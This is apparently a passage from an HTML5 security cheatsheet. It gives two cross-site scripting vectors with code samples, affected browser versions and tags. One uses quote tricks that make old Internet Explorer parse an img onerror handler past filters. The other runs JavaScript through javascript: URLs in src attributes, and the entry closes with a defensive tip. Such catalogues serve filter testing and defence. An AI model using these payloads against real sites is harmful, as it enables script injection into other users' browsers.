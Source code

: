 *   #97

*   #98
*   #128

reporter：hasegawayosuke

### Simulating attributes in IE#62test

This vector simulates an attribute in IE by using a single quote to trick filters. This works up to IE9 in standards mode and in latest IE using older document modes.

```
<!-- IE 6-8 --> <x '="foo"><x foo='><img src=x onerror=alert(1)//'> <!-- IE 6-9 --> <! '="foo"><x foo='><img src=x onerror=alert(2)//'> <? '="foo"><x foo='><img src=x onerror=alert(3)//'> 
```

*   internet explorer 6.0
*   internet explorer latest (in older docmodes)

*   xss

*   javascript
*   attribute
*   simulating
*   parser
*   regex

*   #102

*   #108
*   #133

reporter：Algol, jackmasa, LeverOne, White Jordan

### JavaScript execution via src attribute#63test

Most browsers allow executing JavaScript via <IFRAME> "src" attributes - this is expected behavior. Interesting is though that this can be extended to other tags too. Opera 10, Chrome and Firefox execute JavaScript by using the <EMBED> tag while Opera 10 and Opera Mobile even execute JavaScript with <SCRIPT>, <IMG> and <IMAGE> and a matching "src" attribute as well as early Internet Explorer versions.

```
<embed src="javascript:alert(1)"></embed> // O10.10↓, OM10.0↓, GC6↓, FF <img src="javascript:alert(2)"> <image src="javascript:alert(2)"> // IE6, O10.10↓, OM10.0↓ <script src="javascript:alert(3)"></script> // IE6, O11.01↓, OM10.1↓ 
```

Make sure "src" attributes can never contain non-HTTP-URLs to prevent XSS or worse.

*   firefox 3.0
*   firefox latest

*   chrome 4.0

*   chrome 6.0

*   opera 8.x

*   opera 11.01

*   internet explorer 6.0
